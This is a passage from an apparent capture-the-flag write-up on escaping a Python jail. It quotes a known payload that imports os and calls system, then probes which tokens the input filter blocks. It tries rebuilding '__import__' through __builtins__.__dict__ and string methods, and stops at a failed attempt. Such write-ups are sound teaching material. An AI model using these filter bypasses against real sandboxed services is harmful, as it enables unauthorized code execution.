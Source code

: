 Looking for common Python jail bypass payloads, we find the following payload [here](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes#builtins). It imports the `os` module and calls the `system` function from it:

- `__builtins__.__import__("os").system("ls")`

But, if we try it in our case, we see that it fails.

```console
>> __builtins__.__import__("os").system("ls")
Illegal Input
```

So let's start small. First, we'll try to access the `import` function using `__builtins__.__import__`. However, as we can see, it is blocked.

```console
>> __builtins__.__import__
Illegal Input
```

By splitting our payload and testing the components, we can find that the issue lies with `__import__` and `"`.

```console
>> __builtins__
>> __import__
Illegal Input
>> "
Illegal Input
```

For `"`, we can simply use `'`.

And for `__import__`, instead of using `__builtins__.__import__`, we can achieve the same result with `__builtins__.__dict__['__import__']`.

`__dict__` allows us to access the object's attributes as a dictionary.

You might wonder how using `__builtins__.__dict__['__import__']` helps if `__import__` is the problem. The difference is that this time we can supply `__import__` as a string, and strings have many methods we can use to modify them.

For example, we can find a string that bypasses the filter and, when modified using a method, ends up as `__import__`.

For instance, we see that the application has no issue with `__IMPORT__`.

```console
>> __IMPORT__
Wrong Input
```

So, we can use `__IMPORT__` and then apply a method to convert it to `__import__`.

We can try the `lower` method, which converts all uppercase letters to lowercase.

However, as we can see, this fails.


```console
>> __builtins__.__dict__['__IMPORT__'.lower()]
Illegal Input
```
